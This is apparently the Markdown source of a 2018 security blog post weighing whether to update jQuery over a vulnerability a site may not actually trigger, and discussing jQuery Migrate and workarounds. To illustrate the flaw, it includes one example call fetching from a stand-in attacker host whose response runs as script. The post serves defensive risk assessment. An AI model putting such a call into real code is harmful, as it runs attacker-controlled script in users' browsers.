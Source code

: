 ```yaml
---
layout: post
title: "Should you update jQuery over a hypothetical vulnerability?"
thumbnail: fortune-teller-240.jpg
date: 2018-08-29
---
```


If the version of jQuery you use contains a vulnerability, you may need to update your site to use a newer version. However, this can break functionality. You need to incorporate that into your decision on how to mitigate the vulnerability.

<!-- photo source: https://www.2ndmlg.marines.mil/Photos/igphoto/2000010532/ -->

## A vulnerability in jQuery

jQuery is a client-side JavaScript library. Like any software it can contain vulnerabilities, but often these can only be exploited if the library is used in some specific way. For example, some versions of jQuery [automatically execute JavaScript](/2017/09/27/some-libraries-evaluate-remote-javascript/) returned from a request. This is certainly unexpected and can lead to vulnerabilities: you call `$.GET("http://attacker.com/picture.gif")`, the attacker returns a JavaScript response from his server and this is executed on the page.

If you use user input URLs in `$.GET` calls, you are vulnerable to this attack. But what if you don't?

## Hypothetical vulnerabilities

If you don't use the library in a way that makes your site vulnerable, there is no vulnerability. However, it is still a good idea to update your jQuery version. You may not retrieve user-provided URLs now, but maybe you'll develop it in the future. Maybe you made a mistake when checking your code for vulnerable usage of the library, or maybe the vulnerable code is in a third-party component.

However, if you've checked your code for vulnerable calls and didn't find any, the risk may seem largely theoretical. In that case, is it worth the risk of breaking your site by updating jQuery?

## Updating jQuery may break your site

When updating jQuery, the newer version may have a slightly different interface than the old version. If any of your pages rely on the old behavior, updating jQuery breaks your site. Furthermore, it is pretty hard to check whether this happens. You won't get any compile errors, but have to test the whole site. This means the risk of updating jQuery is pretty big.

Even though it may seem like a big undertaking, [jQuery Migrate](https://github.com/jquery/jquery-migrate) helps you to find any changed interfaces and let your old code work with a newer jQuery version.

## Mitigations

Especially with JavaScript libraries, vulnerabilities can often be mitigated. You could simply override the `$.GET` function to throw an exception if you pass it an absolute URL. Or you could disable JavaScript execution of AJAX responses. This can totally solve even the theoretical vulnerability, without going through the hassle of updating jQuery.

## Assess your risk

Whether you update jQuery or not, you do need to make a informed decision. Weigh the pro's and cons against each other so that it is clear whether updating jQuery is worth the hassle in reduced risk. Decide whether the mitigation of the vulnerability is temporary or permanent. Maybe you are never going to update jQuery ever, but that needs to be a conscious decision rather than a result of everyday churn.

## Conclusion

In the end you need to decide how you reduce the risk of the vulnerability, choosing the solution with the lowest cost. This solution may include updating jQuery throughout your site, but it doesn't have to. The important point is that you make a deliberate decision, weighing risks, costs and benefits against each other.
